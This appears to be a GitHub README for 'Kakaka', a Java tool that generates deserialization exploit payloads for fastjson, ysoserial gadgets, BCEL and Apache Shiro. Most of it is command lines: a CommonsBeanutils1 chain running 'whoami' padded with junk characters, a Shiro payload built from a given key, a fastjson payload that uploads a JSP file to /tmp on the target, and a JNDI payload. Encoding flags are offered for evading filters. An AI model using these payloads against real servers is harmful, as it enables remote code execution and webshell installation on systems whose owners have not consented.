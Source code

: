 # Kakaka

## 🎉  2.0 改为交互式

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211215154823.png)

## 🍭 目前功能

生成fastjson、yso(只添加了一点点，需要的可自行编译)、bcel、shiro、dnslog find gadget等多种payload
支持url、base64、xml、html编码

## 💡生成各种payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211215154842.png)

java -jar Kakaka.jar yso CommonsBeanutils1 -c whoami -d 2000 -raw 生成一个带2000个脏字符的原始payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204631.png)
 
java -jar Kakaka.jar shiro -g CommonsBeanutils1 -c whoami -k a3dvbmcAAAAAAAAAAAAAAA== 指定key和gadget生成shiro payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204714.png)

java -jar Kakaka.jar fastjson upload -lf dogma.jsp -rf /tmp/dogma.jsp 生成fastjson文件上传payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204800.png)

java -jar Kakaka.jar fastjson jndi -u 127.0.0.1 

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204823.png)

## 支持编码

按照参数顺序编码

支持：

  -ue  url编码
  
  -he  html编码
  
  -be  base64编码
  
  -xe  xml编码
